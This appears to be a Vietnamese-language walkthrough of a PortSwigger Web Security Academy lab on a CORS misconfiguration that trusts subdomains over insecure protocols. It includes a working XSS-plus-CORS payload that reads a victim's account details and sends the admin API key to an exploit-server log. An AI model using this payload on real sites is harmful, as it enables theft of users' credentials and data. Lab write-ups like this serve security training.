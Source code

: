 ## CORS vulnerability with trusted insecure protocols

***“This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.***

> Dịch sơ ra nghĩa là CORS sẽ trust all subdomain, mục đích vẫn là lấy APIKEY của admin và 
submit để solve lab.

Login vào web và bắt lại request ***accountDetail***

![](/imgs/CORS/16.png?raw=true)

Thử đổi origin lại thành domain khớp với domain của web thì web sẽ trả về response bình thường.

![](/imgs/CORS/17.png?raw=true)

Mình sẽ lấy ra subdomain trong lab này bằng cách bắt lại request checkstock hoặc lấy cái link popup nhảy ra từ check stock của bất kì 1 post nào.

![](/imgs/CORS/18.png?raw=true)

Ta sẽ nhận được subdomain là ***stock.domain***

![](/imgs/CORS/19.png?raw=true)

Do Cors không cho chuyển hướng đi đâu cả ngoài subdomain của web nên mình sẽ xác định chèn script vào chỗ nào đó có thể thực thi được (web cho sẵn XSS nha).

Ở đây mình sẽ chèn sau productId

![](/imgs/CORS/20.png?raw=true)
![](/imgs/CORS/21.png?raw=true)

Ok script thực hiện tốt, ta sẽ chèn 1 đoạn script gửi XMLHttprequest vào ngay param productId này và đưa sang exploit server :v

```javascript
<script>
   document.location="http://stock.ac221f871e65eee580783acd00e500f1.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac221f871e65eee580783acd00e500f1.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-ac271fbb1ed5eef8804b3a7801dd002b.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Thực hiện chèn script vào param bị nhiễm XSS để thu về giá trị trả về sau khi send request tới accountDetail

![](/imgs/CORS/22.png?raw=true)

Sau khi thu được admin ta sẽ submit apikey là solve lab

![](/imgs/CORS/23.png?raw=true)

